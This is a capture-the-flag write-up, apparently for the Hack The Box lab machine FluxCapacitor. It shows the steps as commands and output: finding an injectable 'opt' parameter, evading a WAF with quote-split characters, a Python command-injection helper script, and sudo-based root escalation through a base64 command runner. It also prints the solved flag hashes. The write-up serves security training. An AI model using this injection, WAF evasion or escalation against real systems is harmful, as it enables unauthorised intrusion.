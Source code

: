 # FluxCapacitor
### 10.10.10.69

Let's run a basic Nmap scan:
```{r, engine='bash', count_lines}
Nmap scan report for 10.10.10.69
Host is up (0.077s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.5p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    SuperWAF
```

We see OpenSSH, which is not a common attack vector unless its very old, and an HTTP web-server called "SuperWAF" we can already assume there is some kind of WAF (Web Application Firewall) in place that will make our life harder.
If we open up the Website we can see a simple html website with some references to the Back To The Future Trilogy, but, in the source of the page we find something peculiar:
```{r, engine='javascript'}
<!--
		Please, add timestamp with something like:
		<script> $.ajax({ type: "GET", url: '/sync' }); </script>
-->
```

the source tells us there's a page over at /sync which returns a timestamp with a get request.
if we browse over to /sync we get a 403 Forbidden error, it might be the WAF! some common ways for WAFs to block users is by checking the user agent for normal Operating Systems and Web Browsers, so if we change our useragent to a random string like 'hello', Great Scott! we get a timestamp:
```
20171219T11:30:25
```

but that's not very useful is it, what we do know though is that there is some kind of script here(which most of the time are ran on perl or php) which returns the timestamp every time we send a get request to it.
most of these scripts do a lot more than just send back the timestamp, so lets check for common options for accepting user input through get requests, but if we try to access /sync?cmd=/etc/passwd or /sync?c=/etc/passwd we get a 200 response with the timestamp every time. but! we have a WAF in place, which will block running commands like cat /etc/passwd if we do manage to get command execution, so if we find a GET argument which will return a 403 Forbidden, we will find a vulnerable variable.

So lets boot up WFUZZ(a tool which will allow us to run many requests with one part of the url changed, in this case the variable name), and run it with the dirbuster common dirs and files wordlist:
```{r, engine='bash', count_lines}
> wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --hc 200 http://fluxcapacitor.htb/sync/?FUZZ=/etc/passwd
..snip..
10703:  C=403      7 L	      10 W	    175 Ch	  "opt"
..snip..
```

we can see that only one variable returns a 403 the opt variable! that's it! we got it!
now that we found a variable which probably runs commands directly, we must find a way to evade the WAF which blocks our requests. A common way for WAF's to filter requests is: If request includes "etc,cat,bin...." then block();
so lets try to make sure that out requests don't have any of those characters near each other, an easy way to do that, is just separating every character with a '' to a different string, and then letting the script itself concatenate them together when running them.
so if we send a request with opt=' l''s' (notice the space at the first letter, as by the errors we get if we try to run it without a space, its running bash -c"our command" so without a space, it wouldn't run)... HUZZAH! we get a list of files back.

```{r, engine='bash', count_lines}
> curl 10.10.10.69/sync?opt="' l''s'"
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
srv
swapfile
sys
tmp
usr
var
vmlinuz
vmlinuz.old
```

but this is a little messy, and once we get to longer command it will become a tiring proccess to add all of those apostrophes to the command, so lets create a small python script to help us.
```{r, engine='python', count_lines}
import re
import sys
import pycurl
from StringIO import StringIO
s = sys.argv[1]
escaped = re.sub("(.{1})", "\\1''", s, 0, re.DOTALL)
buffer = StringIO()
c = pycurl.Curl()
url = "http://10.10.10.69/sync?opt=\' " + escaped + "\'"
c.setopt(c.URL, url)
c.setopt(c.WRITEDATA, buffer)
c.perform()
c.close()
body = buffer.getvalue()
print(body)
```

and we can now use it to run commands on the server, but, if we try to read the user.txt file in themiddle's home directory we only get a Back To The Future reference:
```{r, engine='bash', count_lines}
> python flux.py "cat home/themiddle/user.txt"
Flags? Where we're going we don't need flags.
```

if we keep poking around, we will find there is another home directory, for the "FluxCapacitorInc" user which includes another user.txt inside, this time with the user hash!
```{r, engine='bash', count_lines}
> python flux.py "cat home/FluxCapacitorInc/user.txt"
b8b6d46c893d0cd00c0f0380036117bc
```

but that's not enough, we need the root.txt file, but we dont have permissions to look in the root.txt directory as we're not root. Let's check what programs we are allowed to run as root:
```{r, engine='bash', count_lines}
> python flux.py "sudo -l"
Matching Defaults entries for nobody on fluxcapacitor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nobody may run the following commands on fluxcapacitor:
    (ALL) ALL
    (root) NOPASSWD: /home/themiddle/.monit
```

Hmm, we are allowed to run a curious program called ".monit" in themiddle's home directory, if we check its content we find:
```{r, engine='bash', count_lines}
> python flux.py "cat /home/themiddle/.monit"
#!/bin/bash

if [ "$1" == "cmd" ]; then
	echo "Trying to execute ${2}"
	CMD=$(echo -n ${2} | base64 -d)
	bash -c "$CMD"
fi
```

Great! it seems like it will run any base64 encoded command we will send it.. as root! (as long as we pass it the "cmd" argument first) so lets try to copy the root.txt content's into a file we can read, so firstly we encode it into base64:
```{r, engine='bash', count_lines}
> echo 'cat /root/root.txt > /tmp/root.txt' | base64
Y2F0IC9yb290L3Jvb3QudHh0ID4gL3RtcC9yb290LnR4dAo=
```

then we run the monit program as root with the appropriate arguments:
```{r, engine='bash', count_lines}
> python flux.py "sudo -u root /home/themiddle/.monit cmd Y2F0IC9yb290L3Jvb3QudHh0ID4gL3RtcC9yb290LnR4dAo="
Trying to execute Y2F0IC9yb290L3Jvb3QudHh0ID4gL3RtcC9yb290LnR4dAo=
```

and then we will read it!
```{r, engine='bash', count_lines}
> python flux.py "cat /tmp/root.txt"
bdc89b40eda244649072189a8438b30e
```

and we got rootz!
